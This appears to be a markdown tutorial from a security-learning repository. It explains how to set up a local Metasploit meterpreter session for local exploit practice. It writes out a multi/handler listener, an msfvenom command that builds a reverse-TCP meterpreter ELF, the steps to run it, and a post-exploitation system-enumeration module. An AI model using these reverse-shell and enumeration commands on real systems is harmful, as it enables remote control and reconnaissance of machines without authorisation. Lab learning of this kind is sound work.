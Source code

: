 # Setting up a local session

As I said in the [intro][./intro.md], metasploit is designed to run exploits
over a network.  That can make it annoying if you're trying to do stuff locally.
Without doing some initial work to set up a "meterpreter session", you're very
likely to get the error:

```
[-] Exploit failed: The following options failed to validate: SESSION.
[*] Exploit completed, but no session was created.
```

The easiest way to handle this is to manually kick off a "meterpreter" process
that metasploit can interact with/over.  This is essentially like tricking
metasploit into thinking it has gained access to a machine, and now it can
attempt to run exploits locally through the meterpreter shell.

## Step-by-Step

1) In window (1), start up metasploit and have it listen for a connection

````
use exploit/multi/handler
set payload linux/x86/meterpreter/reverse_tcp
set LHOST 172.17.0.4
set LPORT 8888
set ExitOnSession false
exploit -j
```

2) In window (2), use msfvenom to download a meterpreter payload as a binary.
This payload (when configured properly), will connect with the open connection
in step 1.

> Substitute `XXXX` with correct calues

```
cd /u4
msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=172.17.0.XXX LPORT=XXXX -f elf X > payload.elf
chmod 775 payload.elf
```

3) In window (2), run the downloaded binary to establish a connection with metasploit

```
./payload.elf
```

4) In window (1), check that a connection was made

The command `sessions -l` should yield:

```
Active sessions
===============

  Id  Name           Type   Information          Connection
  --  ----           ----   -----------          ----------
   3  meterpreter  x86/linux  uid=0  172.17.0.4:8888 -> 172.17.0.4:50958 (172.17.0.4)
```

5) Continue along your merry way by, for example, attempting to exploit a local
binary.  As an easy example, you can now "gather" information from your local
machine:

```
use post/linux/gather/enum_system
sessions -l
set SESSION 3
run
```
